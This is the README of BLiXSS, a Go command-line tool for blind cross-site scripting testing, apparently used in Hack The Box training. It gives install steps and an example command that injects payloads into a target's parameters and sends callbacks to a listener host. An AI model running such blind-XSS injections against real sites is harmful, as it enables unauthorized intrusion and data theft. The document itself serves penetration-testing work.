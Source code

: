 ## Blind XSS Tool (BLiXSS)

BLiXSS is a command-line tool designed for blind XSS (Cross-Site Scripting) testing. It crafts a malicious payload to inject into web application parameters, allowing you to detect potential vulnerabilities.

![blixss](https://github.com/lrluque/blixss/assets/16742563/c7ebe0a2-2aef-4662-b29a-f0260f4cb2e8)

*Using BLiXSS with the Academy HTB XSS final assessment to ge the flag in one single command*



### Installation

Clone the repository:

```bash
git clone https://github.com/yourusername/blixss.git
```

Navigate to the `blixss` directory:

```bash
cd blixss
```

Build the executable:

```bash
go build blixss.go
```

### Usage

BLiXSS requires the following parameters:

- `-t`: Target URL (e.g., `http://example.com`)
- `-b`: Body strings with the parameters of the request (e.g., `"parameter1=XSS&parameter2=test2&parameter3=XSS"`)
- `-l`: URL to forward the requests to (e.g., `http://10.10.15.122:45000`)
- `-d`: Specifies a custom directory to make the GET request. If not specified, it will attach `/<<paramName>>` on the request.

Example usage:

```bash
./blixss -t "http://example.com" -b "parameter1=XSS&parameter2=test2&parameter3=XSS" -l "http://10.10.15.122:45000" -d "custom/request/directory"
```

Parameter values different from 'XSS' will not be tested.

### Disclaimer

This tool is for educational purposes only. Do not use it for any illegal activities. I am not responsible for any misuse or damage caused by BLiXSS.

### License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
